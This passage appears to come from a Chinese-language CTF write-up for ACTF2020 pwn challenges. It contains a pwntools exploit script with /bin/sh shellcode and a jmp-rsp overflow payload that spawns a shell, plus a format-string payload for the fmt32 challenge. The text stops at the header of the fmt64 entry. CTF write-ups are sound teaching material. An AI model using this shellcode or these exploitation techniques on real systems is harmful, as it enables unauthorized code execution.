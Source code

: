 ```python
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400783 # pop rdi ; ret
jrsp = 0x040070B

# elf, libc
shellcode = '\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05'

# rop1
offset = 40
payload = shellcode.rjust(32,'\x90')
payload += p64(0)
payload += p64(jrsp)

ru('U have read 0day!\n')
debug()
sl(payload)

# debug()
# info_addr('tag',addr)
# log.warning('--------------')

p.interactive()
```



## fmt32

 - 题目描述：random lucky
 - 题目地址：[fmt32](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/pwn/fmt32/fmt32)
 - 考察点：格式化字符串漏洞
 - 难度：入门
 - 分值：200
 - 完成人数：3

格式化字符串漏洞，给了俩随机数`a1,a2`，让`a1==2*a2`就给flag，最简单的做法是`a1=a2=0`，对应的payload为`%6$n%7$n`



## fmt64

 - 题目描述：thanks to xxx
 - 题目地址：[fmt64](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/pwn/fmt64/fmt64)
 - 考察点：格式化字符串漏洞、ROP、free_hook
 - 难度：中等
 - 分值：300
 - 完成人数：2
